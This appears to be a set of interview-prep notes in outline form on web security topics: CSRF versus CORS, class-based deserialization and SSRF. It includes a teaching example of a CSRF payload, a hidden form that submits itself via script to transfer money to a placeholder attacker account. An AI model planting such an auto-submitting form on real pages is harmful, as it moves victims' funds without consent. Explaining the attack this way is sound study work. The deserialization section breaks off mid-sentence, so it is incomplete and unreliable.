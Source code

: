 - #interview/response
	- Web Security
		- threat model of csrf forms and cors
			- There is a site bank.com which has a transfer feature.
			- ```html
			  <form action="https://bank.com/transfer" method="POST">
			    <input type="hidden" name="accountFrom" value="YOUR_ACCOUNT_NUMBER"/>
			    <input type="text" name="accountTo" placeholder="Recipient's account number"/>
			    <input type="number" name="amount" placeholder="Amount to transfer"/>
			    <input type="submit" value="Transfer"/>
			  </form>
			  ```
			-
			- ```html
			  <form action="https://bank.com/transfer" method="POST" style="display:none;">
			    <input type="hidden" name="accountFrom" value="YOUR_ACCOUNT_NUMBER"/>
			    <input type="hidden" name="accountTo" value="ATTACKER_ACCOUNT_NUMBER"/>
			    <input type="hidden" name="amount" value="1000"/>
			  </form>
			  <script>
			    document.forms[0].submit();
			  </script>
			  ```
			- cookies
		- cors vs csrf
			- CORS is designed to allow servers to control how their resources are shared across domains. CSRF, on the other hand, is about preventing unauthorized commands from being executed on behalf of an authenticated user.
		- class-based deserialization attacks
			- When an instance of an object moves between processes, especially in distributed systems, it needs to first be converted into bytes. This is done through the serialization and deserialization process. An object in process A is serialized into bytes, and the bytes are deserialized into an object in process B. JSON is a common serialization format which supports simple maps of string data, but requires  Allowing attacker controlled data to flow into a deserialization function is  provide a direct vulnerability
	- Cloud Architecture
		- web site screen shot checker
			- SSRF
		- why does lambda make things secure?
-